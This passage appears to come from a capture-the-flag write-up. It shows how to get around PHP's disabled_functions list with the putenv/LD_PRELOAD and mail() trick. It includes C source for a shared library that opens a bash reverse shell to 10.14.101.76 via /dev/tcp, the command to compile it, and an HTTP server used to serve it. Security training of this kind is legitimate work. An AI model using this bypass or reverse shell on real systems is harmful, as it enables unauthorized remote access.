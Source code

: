 However, when trying to execute the `system()` function to achieve RCE, we encounter the following error:

```console
$ python3 execute_code.py
code> system("id");
<br />
<b>Fatal error</b>:  Uncaught Error: Call to undefined function system() in ...
```

Checking the disabled PHP functions confirms why — `system` (along with many others) is disabled:

```console
code> echo ini_get('disable_functions');
exec, system, popen, proc_open, proc_nice, shell_exec, passthru, dl, pcntl_alarm, pcntl_async_signals, pcntl_errno, pcntl_exec, pcntl_fork, pcntl_get_last_error, pcntl_getpriority, pcntl_rfork, pcntl_setpriority, pcntl_signal_dispatch, pcntl_signal_get_handler, pcntl_signal, pcntl_sigprocmask, pcntl_sigtimedwait, pcntl_sigwaitinfo, pcntl_strerror, pcntl_unshare, pcntl_wait, pcntl_waitpid, pcntl_wexitstatus, pcntl_wifexited, pcntl_wifsignaled, pcntl_wifstopped, pcntl_wstopsig, pcntl_wtermsig...
```

### Disabled Functions Bypass

It seems that any major function that could help us execute commands on the target has been disabled. However, if we look for ways to bypass disabled functions, we may come across an [interesting method](https://hacktricks.boitatech.com.br/pentesting/pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass#ld_preload-bypass) utilizing the `putenv` and `mail` functions.

Basically, the method uses the `putenv` function to set the `LD_PRELOAD` environment variable. Any shared library specified in this environment variable gets loaded when a program is run. After that, by calling the `mail` function, it causes the `sendmail` program to run, and the library specified in `LD_PRELOAD` gets loaded and executed. We can try to use this method to bypass the disabled functions.

First, we create a shared library (`shell.c`) that executes a reverse shell command:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
  unsetenv("LD_PRELOAD");
  system("bash -c \"bash -i >& /dev/tcp/10.14.101.76/443 0>&1\"");
}
```
{: file="shell.c" }

Compiling it:

```console
$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

Serving it via a simple HTTP server:

```
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
